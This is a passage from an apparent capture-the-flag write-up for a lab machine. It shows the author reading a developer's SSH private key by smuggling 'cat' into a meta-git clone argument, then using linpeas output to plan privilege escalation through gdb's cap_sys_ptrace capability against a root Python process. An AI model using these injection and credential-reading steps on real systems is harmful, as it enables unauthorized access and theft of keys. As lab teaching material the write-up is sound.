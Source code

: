 the method is working, let's read the ssh private key of developer:

`sudo -u developer /usr/local/bin/meta-git clone 'sss||cat /home/developer/.ssh/id_rsa'`

We can now login as the user **developer**!

# Privilege Escalation

user group seems interesting:

`uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)`

## Unleashing linpeas.sh

Listing capabilities
```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gdb = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

the capability 'cap_sys_ptrace' in gdb seems useful

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace)

let's try to inject command into a python process
```bash
developer@faculty:~$ ps aux | grep root | grep python
root         735  0.0  0.9  26896 18156 ?        Ss   Jul04   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
```
